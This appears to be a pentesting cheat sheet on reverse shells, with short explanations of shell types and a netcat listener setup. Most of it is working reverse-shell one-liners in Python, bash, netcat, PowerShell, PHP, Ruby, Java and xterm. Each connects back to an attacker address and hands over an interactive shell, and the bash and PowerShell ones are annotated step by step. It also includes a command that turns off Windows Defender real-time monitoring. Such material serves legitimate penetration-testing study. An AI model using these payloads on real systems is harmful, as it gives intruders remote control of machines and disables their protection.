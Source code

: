```yaml
---
title: Reverse Shells
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - pentesting
  - web
  - pentesting
  - reverse-shells
---
```

# Reverse shells

??? abstract "Resources to generate reverse shells"
    - [https://www.revshells.com/](https://www.revshells.com/)
    - [Netcat for windows 32/64 bit](https://github.com/int0x33/nc.exe) 
    - [Pentesmonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
    - [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) 

??? abstract "All about shells"
    | **Shell Type**                       | **Description**                                                                                                                                                                                                                                   |
    | ------------------------------------ | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
    | [`Reverse shell`](reverse-shells.md) | Initiates a connection back to a "listener" on our attack box.                                                                                                                                                                                    |
    | [`Bind shell`](bind-shells.md)       | "Binds" to a specific port on the target host and waits for a connection from our attack box.                                                                                                                                                     |
    | [`Web shell`](web-shells.md)         | Runs operating system commands via the web browser, typically not interactive or semi-interactive. It can also be used to run single commands (i.e., leveraging a file upload vulnerability and uploading a `PHP` script to run a single command. |


Victim's machine Initiates a connection back to a "listener" on our attacking machine box. 

For this attack to work, first  we set the listener in the attacking machine using netcat.

```shell-session
nc -lnvp 1234
```

After that, on the victim's machine, you can launch the reverse shell connection. 

A Reverse Shell is handy when we want to get a quick, reliable connection to our compromised host. However, a Reverse Shell can be very fragile. Once the reverse shell command is stopped, or if we lose our connection for any reason, we would have to use the initial exploit to execute the reverse shell command again to regain our access.


## Reverse shell connections

### python

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### bash

```bash
bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'
```

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f

# rm /tmp/f;
# Removes the /tmp/f file if it exists, -f causes rm to ignore nonexistent files. The semi-colon (;) is used to execute the command sequentially.

# mkfifo /tmp/f;
# Makes a FIFO named pipe file at the location specified. In this case, /tmp/f is the FIFO named pipe file, the semi-colon (;) is used to execute the command sequentially.

# cat /tmp/f |
# Concatenates the FIFO named pipe file /tmp/f, the pipe (|) connects the standard output of cat /tmp/f to the standard input of the command that comes after the pipe (|).

# /bin/sh -i 2>&1 |
# Specifies the command language interpreter using the -i option to ensure the shell is interactive. 2>&1 ensures the standard error data stream (2) & standard output data stream (1) are redirected to the command following the pipe (|).

# nc $ip <port> >/tmp/f
# Uses Netcat to send a connection to our attack host $ip listening on port <port>. The output will be redirected (>) to /tmp/f, serving the Bash shell to our waiting Netcat listener when the reverse shell one-liner command is executed

```

### powershell

```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"

# same, but without assigning $client to the new object
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.10.10.10",1234);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()

# powershell -nop -c 
# Executes powershell.exe with no profile (nop) and executes the command/script block (-c or -Command) contained in the quotes

# "$client = New-Object System.Net.Sockets.TCPClient(10.10.14.158,433);
# Sets/evaluates the variable $client equal to (=) the New-Object cmdlet, which creates an instance of the System.Net.Sockets.TCPClient .NET framework object. The .NET framework object will connect with the TCP socket listed in the parentheses (10.10.14.158,443). The semi-colon (;) ensures the commands & code are executed sequentially.

# $stream = $client.GetStream();
# Sets/evaluates the variable $stream equal to (=) the $client variable and the .NET framework method called GetStream that facilitates network communications. 

# [byte[]]$bytes = 0..65535|%{0}; 
# Creates a byte type array ([]) called $bytes that returns 65,535 zeros as the values in the array. This is essentially an empty byte stream that will be directed to the TCP listener on an attack box awaiting a connection.

# while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)

# Starts a while loop containing the $i variable set equal to (=) the .NET framework Stream.Read ($stream.Read) method. The parameters: buffer ($bytes), offset (0), and count ($bytes.Length) are defined inside the parentheses of the method.


# {;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes, 0, $i);
# Sets/evaluates the variable $data equal to (=) an ASCII encoding .NET framework class that will be used in conjunction with the GetString method to encode the byte stream ($bytes) into ASCII. In short, what we type won't just be transmitted and received as empty bits but will be encoded as ASCII text. 

# $sendback = (iex $data 2>&1 | Out-String ); 
# Sets/evaluates the variable $sendback equal to (=) the Invoke-Expression (iex) cmdlet against the $data variable, then redirects the standard error (2>) & standard input (1) through a pipe (|) to the Out-String cmdlet which converts input objects into strings. Because Invoke-Expression is used, everything stored in $data will be run on the local computer. 

# $sendback2 = $sendback + 'PS ' + (pwd).path + '> '; 
# Sets/evaluates the variable $sendback2 equal to (=) the $sendback variable plus (+) the string PS ('PS') plus + path to the working directory ((pwd).path) plus (+) the string '> '. This will result in the shell prompt being PS C:\workingdirectoryofmachine >. 

# $sendbyte=  ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()}
# Sets/evaluates the variable $sendbyte equal to (=) the ASCII encoded byte stream that will use a TCP client to initiate a PowerShell session with a Netcat listener running on the attack box.

```


```powershell-session
 Set-MpPreference -DisableRealtimeMonitoring $true
```
### php

```bash
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

### netcat

```bash
nc -e /bin/sh 10.0.0.1 1234

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```

### ruby

```bash
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

### java

```bash
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```
  

### xterm

```bash
xterm -display 10.0.0.1:1
```

